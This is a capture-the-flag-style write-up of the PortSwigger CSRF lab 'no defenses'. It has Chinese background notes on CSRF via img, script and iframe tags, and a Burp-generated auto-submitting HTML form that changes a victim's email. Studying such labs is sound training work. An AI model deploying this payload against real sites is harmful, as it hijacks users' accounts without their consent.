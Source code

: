 ```yaml
---
title: CSRF - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

---
```


# CSRF - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]
## Lab: CSRF vulnerability with no defenses
* Description: This lab's email change functionality is vulnerable to CSRF. 
* Goal: To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. 
You can log in to your own account using the following credentials: `wiener:peter`
* Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

## Background
:::spoiler
[CSRF 攻擊原理](https://medium.com/@Tommmmm/csrf-攻擊原理-d0f2a51810ca)
[[Day25]- 新手的Web系列CSRF](https://ithelp.ithome.com.tw/articles/10251769)
>1. 使用者登入網站
>2. 使用者透過身份驗證在本機形成cookie
>3. 使用者點擊含有惡意程式的連結，或是直接連結了第三方網站，並瀏覽了帶有以下html程式碼的網頁：`<img src=http://www.***.com/transfer.php?id=5&money=22>`
>4. 惡意程式碼利用使用者的身份發請求，即執行CSRF
>5. 使用者的帳號少錢錢勒QQ
>
> ![](https://i.imgur.com/gwCvSqZ.png)
>---
>>常見的CSRF方法
>* HTML標籤
>    * `<img>`標籤屬性
>        ```html
>        <img src="惡意連結">
>        ```
>    以GET方式請求第三方網站，瀏覽器會帶上使用者的cookie發出GET請求
>    
>    * `<script>`標籤屬性
>        ```javascript
>        `<script src="惡意連結">`
>        ```
>    * `<iframe>`標籤屬性
>        ```html
>        `<iframe src="惡意連結">`
>        ```
:::

## Recon
1. According to the description
It said the email change function has some CSRF exploitation. So, maybe I can login by username and password they provided.
![](https://i.imgur.com/YW4dJqa.png)
2. Find where has CSRF
Then I tried to change my email and trace the package
![](https://i.imgur.com/z2AXOk1.png)

3. Then we can forge a website and let our victim to access
In this lab, PortSwigger provided an exploited server that can simulate a victim to access.

## Exp
Directly create CSRF PoC by Burp Suit
![](https://i.imgur.com/oY6NlZE.png)

Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0a050071049c31f4815898e900330005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/nlgu1Oa.png)
:::

## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)
[Lab: CSRF vulnerability with no defenses - write up](https://blog.csdn.net/ZripenYe/article/details/120793709)
